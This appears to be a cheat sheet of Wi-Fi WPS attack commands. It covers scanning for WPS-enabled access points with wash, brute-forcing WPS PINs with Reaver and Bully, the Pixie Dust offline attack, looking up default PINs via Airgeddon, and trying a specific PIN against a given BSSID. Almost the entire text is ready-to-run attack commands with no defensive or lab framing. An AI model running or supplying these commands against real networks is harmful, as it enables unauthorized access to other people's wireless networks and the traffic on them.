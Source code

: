 
### 📘 **WPS Attacks**
#### 🔹 Scan WPS-Enabled Networks (wash)

`wash -i wlan0mon`

Displays WPS info like BSSID, channel, vendor, and lock status. Useful for identifying vulnerable APs.

---

#### 🔹 Brute-force WPS PIN (Reaver)

`sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -vv`

Launches a WPS PIN brute-force attack. Reaver tries common PINs and continues until success.

---

#### 🔹 Fix “Waiting for beacon” Issue (Reaver with channel)

`sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -c 3 -vv`

Manually set the channel to help Reaver detect the target AP.

---

#### 🔹 Pixie Dust Attack (Reaver + PixieWPS)

`sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -vv -K`

Performs offline WPS PIN attack using leaked crypto values. Very fast on vulnerable APs.

---

#### 🔹 WPS Attack with Bully (PixieWPS Mode)

`bully -d wlan0mon -b 34:08:04:09:3D:38 -v 4`

Bully brute-forces WPS PIN and attempts PixieWPS if supported.

---

#### 🔹 Test Known Default WPS PINs (Airgeddon)

`sudo apt install airgeddon source /usr/share/airgeddon/known_pins.db echo ${PINDB["0013F7"]}`

Searches Airgeddon’s database for default WPS PINs based on BSSID prefix.

---

#### 🔹 Manually Test Known PIN with Reaver

`reaver -i wlan0mon -b 34:08:04:09:3D:38 -p 14755989 -vv`

Tries a specific WPS PIN on the AP. Useful for testing known/default PINs.

---

